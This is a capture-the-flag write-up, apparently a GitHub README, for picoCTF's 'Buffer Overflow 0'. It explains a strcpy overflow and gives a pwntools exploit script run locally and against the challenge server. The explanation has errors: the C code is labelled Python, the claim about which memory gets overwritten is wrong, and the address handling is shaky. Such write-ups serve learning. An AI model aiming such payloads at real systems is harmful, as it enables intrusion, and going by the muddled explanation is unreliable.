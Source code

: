 

![Typing SVG](https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&width=435&size=35&lines=Buffer+Overflow+0)
<br>
![Typing SVG](https://readme-typing-svg.herokuapp.com?font=Fira+Code&weight=500&pause=1000&color=F70000&width=435&lines=Binary+Exploitation)

![Challenge Description](chal_desc.png)

In this challenge we were given an ELF 32 bit executable and its source code. When we run the executable:

![Run ./vuln](run_vulns.png)

Let's examine the source code.
The challenge's name indicates that we're facing a buffer overflow vulnerability. The vulnerable part of the code is :

```python
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```
the variable buf2 has a capacity of 16 bytes meanwhile the function ignores its length and copies the content of the argument input which can be arbitrarily long into the variable buf2. That'll cause the program to fill the space destined for the variable input and fills up adjacent places in the memory. These "adjacent spaces" can be very sensitive. Since they control the execution of the program. Let's now take a look at a dangerous function.

```python
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```

This function is only written and not called. That seems hopeless! Not a bit! There's something in the memory called EIP register (in the 32bit architecture) which contains the adress of the next instruction that'll be executed. Of course, the whole code is transformed into assembly and instruction has an adress. That's it ! We just need now to implement the exploit.

Let's fire up gdb and look for the adress of the function sigsegv_handler() using the commnad `info functions`
![sigsegv_handler addr](info_functions.png)

It is located at the adress at the adress 0x0000130d
We can use the ![offset calc](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)(Website) to find the offset which is sort of the distance from the variable buf2 in the memory and the EIP register. We find that it is 28. So, we fill 28 bytes in the memory starting from the variable buf2 and followed by the adress of the sigsegv_handler() in shellcode.
We can use the following code in our local machine with a fake flag file to test.

```python
from pwn import *


payload = b"A"*28
payload += p32(0x0000130d)

p = process("./vuln")
p.recv(7)
p.sendline(payload)
p.interactive()

p.close()
``` 

![fake flag](local_exp.png)
It worked! It printed the fake flag FLAG_FLAG

Now let's try to exploit it remotely and find the flag !
for that we need to modify our python script.

```python
from pwn import *


payload = b"A"*28
payload += p32(0x0000130d)

p = remote("saturn.picoctf.net", 51532)
p.recv(7)
p.sendline(payload)
p.interactive()

p.close()
```
and we get the final flag !!
![final flag](final_flag.png)
